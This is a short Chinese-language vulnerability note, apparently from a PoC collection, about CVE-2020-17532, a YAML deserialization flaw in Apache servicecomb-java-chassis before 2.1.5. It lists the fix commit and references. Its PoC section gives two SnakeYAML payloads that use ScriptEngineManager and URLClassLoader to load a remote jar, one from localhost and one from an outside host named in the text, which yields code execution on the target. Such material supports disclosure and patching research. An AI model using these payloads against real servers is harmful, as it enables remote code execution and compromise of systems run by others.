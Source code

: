 # CVE-2020-17532 Apache servicecomb-java-chassis Yaml 反序列化漏洞

在servicecomb-java-chassis中启用处理程序-路由器组件时，经过身份验证的用户可能会注入一些数据并导致任意代码执行。

**commit：**

https://github.com/apache/servicecomb-java-chassis/commit/839a52e27c754cb5ce14f20063902f21065bd26c

影响版本：< 2.1.5

**PoC：**

```
!!javax.script.ScriptEngineManager [!!java.net.URLClassLoader [[!!java.net.URL ["http://127.0.0.1/"]]]]
```

```
!!javax.script.ScriptEngineManager [
  !!java.net.URLClassLoader [[
    !!java.net.URL ["http://artsploit.com/yaml-payload.jar"]
  ]]
]
```

ref：

* https://github.com/apache/servicecomb-java-chassis/commit/839a52e27c754cb5ce14f20063902f21065bd26c
* https://seclists.org/oss-sec/2021/q1/60
* https://forum.ywhack.com/thread-115020-1-1.html